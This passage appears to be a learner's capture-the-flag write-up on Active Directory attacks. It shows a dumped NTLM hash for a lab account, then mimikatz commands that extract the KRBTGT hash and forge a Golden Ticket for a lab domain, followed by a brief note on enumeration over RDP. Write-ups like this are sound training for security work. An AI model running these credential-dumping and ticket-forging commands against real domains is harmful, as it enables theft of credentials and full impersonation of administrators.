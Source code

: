 >What is the Machine2 Hash?

```
RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0
```

## Golden Ticket Attacks w/ mimikatz 

Another Golden Ticket attack. Good opportunity to improve my understanding for this because admittedly, there's too much steps involved and new concepts for Kerberoasting.

As usual, run mimikatz.exe, check privilege and dump for KRBTGT since we want a Golden Ticket

>lsadump::lsa /inject /name:krbtgt

>kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /kr
btgt:5508500012cc005cf7082a9a89ebdfdf /id:500 


Command above to generate the golden ticket. Values for sid and krbtgt are derived from the lsadump for krbtgt

From hereon, the steeps are not possible unless I setup my own Active Directory. But the gist is with the ticket, I should be able to access other machines with the generated Golden Ticket. But 

>misc::cmd

needs to be executed.

## Enumeration with Server Manager

This requires RDPing (Remote Desktop Protocol iirc) into the server. 

Greeted with the IIS dashboard
